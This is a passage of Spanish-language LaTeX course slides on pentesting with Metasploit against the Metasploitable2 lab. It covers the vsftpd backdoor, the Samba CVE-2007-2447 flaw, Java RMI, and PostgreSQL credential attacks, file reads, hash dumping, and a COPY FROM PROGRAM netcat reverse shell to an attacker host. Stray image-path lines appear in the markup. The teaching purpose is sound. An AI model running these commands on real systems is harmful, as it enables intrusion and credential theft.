  \item \textbf{Hoy no sirven como evasión.} Las firmas de los antivirus detectan el propio \emph{decodificador} de Shikata Ga Nai, y el análisis de comportamiento observa lo que hace el proceso, no cómo estaban cifrados sus bytes.
  \item Las técnicas actuales de evasión se ven en el \textbf{Tema 2.2} (evasión de red) y en el \textbf{Tema 3.2} (evasión de endpoint).
  \end{itemize}
\end{frame}

\begin{frame}{Ejercicio: room \emph{metasploitintro}}
\small
  \begin{itemize}
  \item Resuelve esta room de TryHackMe sobre Metasploit: \href{https://tryhackme.com/room/metasploitintro}{metasploitintro}.
  \end{itemize}
\begin{center}
\includegraphics[width=0.5\textwidth,height=0.41\textheight,keepaspectratio]{img/sl031_1.jpg}
\end{center}
\end{frame}

\section{Pentesting con Metasploit}

\begin{frame}[allowframebreaks]{Fusión Nmap + Metasploit: la base de datos}
\footnotesize
  \begin{itemize}
  \item Metasploit dispone de una base de datos interna (PostgreSQL) donde almacena hosts, servicios y vulnerabilidades detectadas. Nmap puede volcarse directamente en ella.
  \end{itemize}
\lead{Gestión de workspaces}
\cmdbox{workspace -a pentest\_lab \ \ \# crear espacio de trabajo\\
workspace pentest\_lab \ \ \ \ \ \ \# seleccionar workspace}
\lead{db\_nmap --- Nmap integrado}
\cmdbox{db\_nmap -sV -sC -O --script vuln <IP>}
\lead{Consultar resultados y reutilizarlos}
\cmdbox{hosts \ \ \ \ \ \ \ \ \ \ \ \ \# listar hosts descubiertos\\
services \ \ \ \ \ \ \ \ \ \# listar servicios por puerto\\
services -p 445 -u \ \# filtrar por puerto\\
vulns \ \ \ \ \ \ \ \ \ \ \ \ \# listar vulnerabilidades detectadas\\
use exploit/unix/ftp/vsftpd\_234\_backdoor\\
services -p 21 -R \ \ \# carga las IP con el puerto 21 en RHOSTS}
  \begin{itemize}
  \item La opción \cmd{-R} es la que da valor real a la base de datos: rellena \cmd{RHOSTS} con el resultado de la consulta, sin copiar y pegar IP a mano.
  \end{itemize}
\end{frame}

\begin{frame}{Preparar la base de datos: msfdb}
\small
  \begin{itemize}
  \item Si \cmd{db\_status} responde que no hay conexión, la base de datos se inicializa desde el sistema, fuera de \cmd{msfconsole}:
  \end{itemize}
\cmdbox{msfdb init \ \ \ \ \ \# crea el usuario, la BD y el fichero de configuración\\
msfdb status \ \ \ \# comprobar\\
msfconsole -q \ \ \# arrancar sin banner\\
db\_status \ \ \ \ \ \ \# desde msfconsole: confirmar la conexión}
  \begin{itemize}
  \item Sin base de datos, Metasploit funciona igual pero pierde \cmd{hosts}, \cmd{services}, \cmd{vulns}, los workspaces y la opción \cmd{-R}: es decir, todo lo que convierte una sesión suelta en una auditoría trazable.
  \end{itemize}
\fuente{\href{https://www.offsec.com/metasploit-unleashed/using-databases/}{Metasploit Unleashed --- Using Databases} \textbar{}
        \href{https://docs.rapid7.com/metasploit/managing-the-database/}{Rapid7 --- Managing the database}}
\end{frame}

\begin{frame}{Resource scripts: auditorías repetibles}
\small
  \begin{itemize}
  \item Un fichero \cmd{.rc} es una lista de comandos de \cmd{msfconsole} que se ejecutan en orden. Sirve para no repetir la misma secuencia en cada sesión de laboratorio.
  \end{itemize}
\cmdbox{\# fichero vsftpd.rc\\
workspace -a metasploitable\\
db\_nmap -sV 192.168.1.10\\
use exploit/unix/ftp/vsftpd\_234\_backdoor\\
services -p 21 -R\\
exploit -z \ \ \# -z: no interactuar con la sesión al abrirla}
\cmdbox{msfconsole -q -r vsftpd.rc \ \ \# desde el sistema\\
resource vsftpd.rc \ \ \ \ \ \ \ \ \ \ \# o desde una consola ya abierta}
\end{frame}

\begin{frame}{Explotación de vsftpd 2.3.4}
\small
  \begin{itemize}
  \item En esta sección se va a usar Metasploit para vulnerar la distribución Metasploitable2 a través de diferentes servicios vulnerables.
  \end{itemize}
\lead{Explotación de vsftpd}
  \begin{itemize}
  \item En el puerto 21 está corriendo vsftpd 2.3.4 y, buscando esa versión, encontramos que existe un exploit asociado:
    \href{https://www.rapid7.com/db/modules/exploit/unix/ftp/vsftpd_234_backdoor/}{exploit/unix/ftp/vsftpd\_234\_backdoor}.
  \item Básicamente, esta versión tiene una puerta trasera que se introdujo de manera intencionada en el código fuente. Para explotarla se puede usar el exploit disponible en Metasploit y obtener una shell con permisos de root.
  \item Detalle histórico: el servidor de descargas oficial de vsftpd fue comprometido en 2011 y se distribuyó durante unos días un tarball con la puerta trasera. Se activa al enviar un usuario que contenga la carita \cmd{:)}, que abre una shell en el puerto 6200.
  \end{itemize}
\end{frame}

\begin{frame}{vsftpd: shell de root obtenida}
\begin{center}
\includegraphics[width=\textwidth,height=0.86\textheight,keepaspectratio]{img/sl035_1.png}
\end{center}
\end{frame}

\begin{frame}{Enumeración del servicio TWiki}
\small
  \begin{itemize}
  \item Aparece un servicio TWiki, un gestor de contenidos tipo wiki escrito en Perl y con licencia GPL. Soporta extensiones para acceso a bases de datos, diagramas, hojas de cálculo, seguimiento de proyectos y muchas otras posibilidades.
  \end{itemize}
\begin{center}

\includegraphics[width=0.48\textwidth,height=0.62\textheight,keepaspectratio]{img/sl036_1.png}\hfill

\includegraphics[width=0.48\textwidth,height=0.62\textheight,keepaspectratio]{img/sl037_1.png}
\end{center}
\end{frame}

\begin{frame}{Samba: identificar la versión con smb\_version}
\small
  \begin{itemize}
  \item Samba es un sistema para compartir archivos e impresoras en una red local; es el equivalente al SMB de Windows en los sistemas Unix.
  \item Para este puerto se dispone de varios escáneres en Metasploit con los que obtener información del servicio. Por ejemplo, el módulo \cmd{smb\_version} nos muestra la versión de SMB.
  \end{itemize}
\begin{center}
\includegraphics[width=\textwidth,height=0.6\textheight,keepaspectratio]{img/sl038_1.png}
\end{center}
\end{frame}

\begin{frame}{Samba: enumerar usuarios con smb\_enumusers}
\small
  \begin{itemize}
  \item Establecemos la IP de la máquina objetivo en \cmd{RHOSTS} y ejecutamos el escáner con \cmd{run}. En este caso se trata de Samba 3.0.20-Debian. Otro módulo interesante es \cmd{smb\_enumusers}, que permite listar los nombres de usuario de Metasploitable.
  \end{itemize}
\begin{center}
\includegraphics[width=\textwidth,height=0.66\textheight,keepaspectratio]{img/sl039_1.png}
\end{center}
\end{frame}

\begin{frame}{Samba: recursos compartidos con smb\_enumshares}
\small
  \begin{itemize}
  \item Se obtiene una lista de nombres de usuario con los que se podría crear un diccionario, por ejemplo para un futuro ataque de fuerza bruta. Otro módulo interesante es \cmd{smb\_enumshares}, que obtiene las carpetas compartidas del objetivo.
  \end{itemize}
\begin{center}
\includegraphics[width=0.78\textwidth,height=0.66\textheight,keepaspectratio]{img/sl040_1.png}
\end{center}
\end{frame}

\begin{frame}{Samba: explotación de CVE-2007-2447}
\small
  \begin{itemize}
  \item Además de los módulos auxiliary, se dispone de un exploit mediante el cual obtendremos una shell con privilegios de root.
  \item Se trata de \href{https://nvd.nist.gov/vuln/detail/CVE-2007-2447}{CVE-2007-2447}: el campo de nombre de usuario se pasa sin sanear a un script de shell, de modo que basta con inyectar metacaracteres para ejecutar comandos.
  \end{itemize}
\begin{center}
\includegraphics[width=0.46\textwidth,height=0.56\textheight,keepaspectratio]{img/sl041_1.png}
\end{center}
\end{frame}

\begin{frame}{Samba: sesión de root en Metasploitable2}
\begin{center}
\includegraphics[width=\textwidth,height=0.86\textheight,keepaspectratio]{img/sl041_2.png}
\end{center}
\end{frame}

\begin{frame}{Explotación de Java RMI}
\small
  \begin{itemize}
  \item Java Remote Method Invocation (RMI) es un mecanismo de Java para invocar un método de forma remota. Se utiliza como forma de comunicación entre servidores en aplicaciones basadas exclusivamente en Java. Para este servicio disponemos de un exploit en Metasploit.
  \item El fallo es de configuración: el registro RMI permite cargar clases desde una URL remota, así que el atacante sirve su propia clase y el servidor la ejecuta.
  \end{itemize}
\begin{center}
\includegraphics[width=0.6\textwidth,height=0.6\textheight,keepaspectratio]{img/sl042_1.png}
\end{center}
\end{frame}

\begin{frame}{Java RMI: sesión obtenida}
\begin{center}
\includegraphics[width=\textwidth,height=0.86\textheight,keepaspectratio]{img/sl042_2.png}
\end{center}
\end{frame}

\begin{frame}{Meterpreter: gestión de ficheros}
\footnotesize
\lead{Navegar y manipular ficheros en una sesión meterpreter}
\cmdbox{pwd $\cdot$ getwd $\cdot$ ls $\cdot$ cd <dir> $\cdot$ mkdir $\cdot$ rmdir\\
cat fichero $\cdot$ edit fichero $\cdot$ search -f *.txt -d C:\textbackslash{}}
\lead{Transferencia víctima $\leftrightarrow$ atacante}
\cmdbox{download C:\textbackslash{}ruta\textbackslash{}secreto.txt /loot/\\
upload herramienta.exe C:\textbackslash{}Windows\textbackslash{}Temp\textbackslash{}}
\lead{Otros comandos útiles}
\cmdbox{checksum md5 fichero $\cdot$ cp $\cdot$ mv $\cdot$ rm $\cdot$ show\_mount\\
lcd $\cdot$ lpwd $\cdot$ lls \ \ \# ficheros en TU máquina (local)}
  \begin{itemize}
  \item \cmd{lcd}, \cmd{lpwd} y \cmd{lls} operan en local; el resto, en la víctima.
  \item Meterpreter reside en memoria y no escribe un binario en disco, lo que reduce ---pero no elimina--- su rastro forense.
  \end{itemize}
\fuente{Fuente: \href{https://www.hackingarticles.in/meterpreter-file-system-commands-cheatsheet/}{Hacking Articles --- Meterpreter File System Commands Cheatsheet}}
\end{frame}

\begin{frame}{PostgreSQL: ataque a credenciales}
\small
  \begin{itemize}
  \item PostgreSQL es un sistema de gestión de bases de datos relacional orientado a objetos y de código abierto. En Metasploit disponemos de un módulo auxiliar con el que hacer un ataque a las credenciales, llamado \cmd{postgres\_login}.
  \end{itemize}
\begin{center}
\includegraphics[width=\textwidth,height=0.66\textheight,keepaspectratio]{img/sl043_1.png}
\end{center}
\end{frame}

\begin{frame}{PostgreSQL: de credenciales a shell}
\small
  \begin{itemize}
  \item Se puede apreciar que las credenciales son \cmd{postgres:postgres}. Además del auxiliar visto anteriormente, disponemos de un exploit: el módulo \cmd{postgres\_payload}. Lo configuramos:
  \end{itemize}
\begin{center}
\includegraphics[width=0.8\textwidth,height=0.66\textheight,keepaspectratio]{img/sl044_1.png}
\end{center}
\end{frame}

\begin{frame}{PostgreSQL: sesión obtenida}
\begin{center}
\includegraphics[width=\textwidth,height=0.75\textheight,keepaspectratio]{img/sl044_2.png}
\end{center}
\end{frame}

\begin{frame}{PostgreSQL: descubrimiento y acceso con el cliente}
\small
  \begin{itemize}
  \item Además del módulo de Metasploit, se puede interactuar directamente con el servicio (puerto \cmd{5432}) usando el cliente \cmd{psql}. Muchas instalaciones conservan credenciales por defecto (\cmd{postgres:postgres}).
  \end{itemize}
\cmdbox{nmap -sV -p5432 <IP>\\
psql -h <IP> -U postgres\ \ \ \ \# contrasena por defecto: postgres\\
\textbackslash{}l\ \ \ \ \# listar bases de datos\ \ \ \ \ \textbackslash{}du\ \ \ \ \# listar roles/usuarios}
\begin{center}
\includegraphics[width=\textwidth,height=0.42\textheight,keepaspectratio]{img/pg_access.png}\end{center}
\fuente{Fuente: \href{https://www.hackingarticles.in/postgresql-penetration-testing/}{PostgreSQL Penetration Testing} --- Hacking Articles.}
\end{frame}

\begin{frame}{PostgreSQL: lectura de ficheros del sistema}
\small
  \begin{itemize}
  \item Con privilegios de superusuario, PostgreSQL puede \textbf{leer ficheros del host} abusando de sus funciones internas. Dos vías equivalentes:
  \end{itemize}
\lead{Con Metasploit}
\cmdbox{use auxiliary/admin/postgres/postgres\_readfile\\
set rhosts <IP>\ \ \ \ set rfile /etc/passwd\ \ \ \ run}
\lead{Manual (desde psql)}
\cmdbox{SELECT pg\_read\_file('/etc/passwd');}
\begin{center}
\includegraphics[width=\textwidth,height=0.40\textheight,keepaspectratio]{img/pg_readfile.png}\end{center}
\fuente{Fuente: \href{https://www.hackingarticles.in/postgresql-penetration-testing/}{PostgreSQL Penetration Testing} --- Hacking Articles.}
\end{frame}

\begin{frame}{PostgreSQL: volcado de hashes de contrasena}
\small
  \begin{itemize}
  \item La tabla interna \cmd{pg\_shadow} almacena los hashes (MD5 o SCRAM-SHA-256) de las contrasenas. El modulo los extrae para \textbf{crackearlos offline} (ver Tema 3.1).
  \end{itemize}
\cmdbox{use auxiliary/scanner/postgres/postgres\_hashdump\\
set rhosts <IP>\ \ \ \ set username postgres\ \ \ \ set password <pass>\ \ \ \ run}
\begin{center}
\includegraphics[width=\textwidth,height=0.50\textheight,keepaspectratio]{img/pg_hashdump.png}\end{center}
\fuente{Fuente: \href{https://www.hackingarticles.in/postgresql-penetration-testing/}{PostgreSQL Penetration Testing} --- Hacking Articles.}
\end{frame}

\begin{frame}{PostgreSQL: ejecucion de comandos (COPY FROM PROGRAM)}
\small
  \begin{itemize}
  \item Si el usuario es superusuario, la instruccion \cmd{COPY ... FROM PROGRAM} \textbf{ejecuta comandos del sistema operativo}. Es la tecnica que hay detras del modulo \cmd{postgres\_payload}.
  \end{itemize}
\lead{Ejecutar un comando y leer su salida}
\cmdbox{CREATE TABLE x(o text);\\
COPY x FROM PROGRAM 'id';\ \ \ \ SELECT * FROM x;}
\lead{Reverse shell (listener: \cmd{nc -lvp 1234})}
\cmdbox{COPY x FROM PROGRAM 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>\&1|nc <KALI> 1234 >/tmp/f';}
